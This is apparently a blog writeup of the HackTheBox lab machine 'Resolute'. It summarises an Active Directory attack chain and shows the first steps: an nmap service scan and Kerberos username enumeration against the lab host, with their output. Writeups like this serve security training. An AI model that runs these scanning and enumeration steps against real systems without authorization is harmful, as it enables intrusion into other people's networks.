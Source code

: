 ```yaml
---
title: "Resolute - HackTheBox"
date: 2020-06-13T17:05:44-04:00
draft: false
showToc: true
description: "My solve to the Resolute machine on hackthebox"
tags: ["htb"]
categories: ["htb"]
---
```





My first medium level box for hackthebox! And my first writeup for hackthebox.

## TL;DR

User: nmap, use enum4linux to find a user password and possible usernames, use hydra to test usernames with password, use evil-winrm to gain access and cat flag.\

Root: found hidden files, found another user + password, used exploit guide on dnsadmins to gain root privileges.


## **User**

### **Getting started**

As always, I began with an nmap scan which returned the following:
```
$ nmap -sC -sV 10.10.10.169 > nmap.txt
```
```
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-05-20 22:33:36Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
```

I didn't see anything that stood out to me immediately, but I did see that port 389 was AD LDAP and port 88 was a Kerberos server. A quick google search for the Kerberos server gave me an nmap command that could enumerate possible users and names. This returned a large list of potential usernames, as I saw a huge list of users, but I was not too sure if this was the correct way. 
```
$ nmap -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='MEGABANK.local',userdb=/root/Downloads/resolute/names.txt 10.10.10.169
```
```
PORT   STATE SERVICE
88/tcp open  kerberos-sec
| krb5-enum-users: 
| Discovered Kerberos principals
|     felicia@MEGABANK.local
|     ryan@MEGABANK.local
|     claire@MEGABANK.local
|     fred@MEGABANK.local
|     per@MEGABANK.local
```